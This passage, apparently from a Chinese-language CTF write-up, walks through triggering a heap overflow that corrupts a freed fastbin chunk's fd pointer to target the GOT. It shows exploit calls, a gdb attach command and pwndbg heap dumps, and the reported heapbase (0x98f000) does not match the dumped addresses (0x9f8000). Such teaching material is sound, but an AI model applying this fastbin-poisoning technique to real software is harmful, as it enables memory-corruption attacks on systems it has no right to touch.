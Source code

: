 >注意上面有的地方用了sendafter而不用sendlineafter，是因为目标程序使用了read函数接受输入，会读入换行符\n，产生干扰，所以用send，所以也需要sleep一下把前后两个数据包隔开，以免发送的时候前后两个数据包被合在一起出现粘包问题

**STEP2** 触发漏洞并开始调试

接下来调用接口函数触发漏洞利用：

```
add(0x50, '000000')          # chunk0
add(0x50, '111111')          # chunk1
delete(1)                    # free(chunk1)
pause()
edit(0, 0x100, 'R' * 0x100)  # 通过相邻的chunk0溢出更改chunk1的fd
```

> 注：虽然这里分配两个节点都是0x50，但第一个节点并不必一定是0x50，例如0x10也是可以的，因为这样分配出的两个chunk依然相邻，可以触发溢出覆写。但第二个节点作为被覆写的chunk，选取0x50是为了匹配GOT附近0x60的size的，不能随意变化。

先创建两个fastbin chunk，然后把chunk1释放掉。再调用edit接口写入超长字符串触发溢出，覆盖chunk1。

为了方便调试，在溢出前添加pause()，在此暂停脚本执行，用于gdb附加调试。当脚本暂停时，在左侧窗口执行如下命令附加目标进程：

```
gdb -q -p `pidof pwn` -ex "*0x40BC05" -ex "c"
```

这时候看下堆的情况，通过pwndbg插件可以方便的查看相关信息：

```
pwndbg> heapbase               # 查看heapbase地址
heapbase:  0x98f000
pwndbg> x/40gx 0x98f000        # 查看堆分配情况
0x9f8000:       0x0000000000000000      0x0000000000000021 \ 这里是程序main函数里分配内存存储hello_message和
0x9f8010:       0x0000000000400896      0x00000000004008b1 / goodbye_message指针的，这里我们不关心
0x9f8020:       0x0000000000000000      0x0000000000000061 \
0x9f8030:       0x0000303030303030      0x0000000000000000  |
0x9f8040:       0x0000000000000000      0x0000000000000000  | chunk0
0x9f8050:       0x0000000000000000      0x0000000000000000  |
0x9f8060:       0x0000000000000000      0x0000000000000000  |
0x9f8070:       0x0000000000000000      0x0000000000000000 /
0x9f8080:       0x0000000000000000      0x0000000000000061 \
0x9f8090:       0x0000000000000000      0x0000000000000000  |
0x9f80a0:       0x0000000000000000      0x0000000000000000  | chunk1
0x9f80b0:       0x0000000000000000      0x0000000000000000  |
0x9f80c0:       0x0000000000000000      0x0000000000000000  |
0x9f80d0:       0x0000000000000000      0x0000000000000000 /
0x9f80e0:       0x0000000000000000      0x0000000000020f21
0x9f80f0:       0x0000000000000000      0x0000000000000000
pwndbg> fastbins               # 查看fastbin链
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x9f8080 ◂— 0x0
0x70: 0x0
0x80: 0x0
pwndbg> p main_arena.fastbinsY   # 查看fastbin
$1 = {0x0, 0x0, 0x0, 0x0, 0x9f8080, 0x0, 0x0, 0x0, 0x0, 0x0}
```
